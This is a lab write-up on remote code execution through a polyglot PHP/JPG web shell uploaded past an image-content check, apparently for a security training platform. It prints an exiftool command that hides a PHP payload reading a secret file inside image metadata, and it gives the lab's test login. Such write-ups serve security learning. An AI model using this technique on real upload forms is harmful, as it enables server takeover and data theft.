







# Remote code execution via polyglot web shell upload
# Objective
This lab contains a vulnerable image upload function. Although it checks the contents of the file to verify that it is a genuine image, it is still possible to upload and execute server-side code.

To solve the lab, upload a basic PHP web shell, then use it to exfiltrate the contents of the file `/home/carlos/secret`. Submit this secret using the button provided in the lab banner.

You can log in to your own account using the following credentials: `wiener:peter`

# Solution
## Analysis
### Upload request example
||
|:--:| 
| *Normal upload request* |
||
| *Path to uploaded file* |

Above file upload request and response reveal information about server:
```
Server: Apache/2.4.41 (Ubuntu)
```

### PHP payload upload test
PHP files are not allowed - `file is not a valid image`.
||
|:--:| 
| *PHP files are not allowed* |

## Exploitation
### Polyglot PHP/JPG creation
Attacker can attempt to hide PHP payload in metadata. Some application check image properties by reading its metadata and they may execute PHP payload that hides in metadata. 

```
exiftool -Comment="<?php echo 'START ' . file_get_contents('/home/carlos/secret') . ' END'; ?>" test_file.jpg  -o polyglot.php
```
||
|:--:| 
| *Creation jpg file with php payload in metadata* |
||
| *Successful PHP payload upload* |

### Retrieving executed data from uploaded payload

||
|:--:| 
| *Retrieving executed command from uploaded image* |
||
| *Retrieving executed command from uploaded image* |

